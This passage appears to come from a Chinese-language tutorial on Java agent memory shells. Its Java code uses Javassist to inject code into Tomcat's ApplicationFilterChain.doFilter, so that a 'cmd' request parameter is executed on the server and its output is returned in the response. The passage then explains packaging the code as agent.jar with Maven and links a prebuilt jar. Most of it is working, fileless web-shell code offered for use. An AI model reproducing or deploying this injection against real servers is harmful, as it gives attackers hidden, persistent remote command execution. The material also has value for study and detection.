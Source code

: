 ```java
        className = className.replace("/",".");
        //如果被拦截的类是ApplicationFilterChain，那么对其进行字节码动态修改
        if (className.equals(ClassName)){
            // 创建一个ClassPool对象，获取默认的类搜索路径
            ClassPool classPool = ClassPool.getDefault();
            try {
                // 从ClassPool对象中获取ApplicationFilterChain类的CtClass对象
                CtClass clz = classPool.get(className);

                // 从CtClass对象中获取doFilter方法的CtMethod对象
                CtMethod doFilterMethod = clz.getDeclaredMethod("doFilter");
                //在doFilter方法执行前插入一段代码
                //这段代码从HTTP请求中获取名为“cmd”的参数，并将其作为命令在服务器上执行。然后，它将命令的输出发送回HTTP响应。
                doFilterMethod.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
                        "        response.getOutputStream().close();\n" +
                        "    } catch (Exception e){\n" +
                        "        e.printStackTrace();\n" +
                        "    }\n" +
                        "}");
                byte[] bytes = clz.toBytecode();
                // 将 clz 从 classpool 中删除以释放内存
                clz.detach();
                //返回修改后的ApplicationFilterChain类的字节码
                return bytes;
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        return new byte[0];
    }
}
```

然后，利用 maven 进行打包`mvn assembly:assembly`打包成 agent.jar就可以。这里当然我们也可以直接利用[AgentMain-1.0-SNAPSHOT-jar-with-dependencies.jar包](https://github.com/KpLi0rn/AgentMemShell)
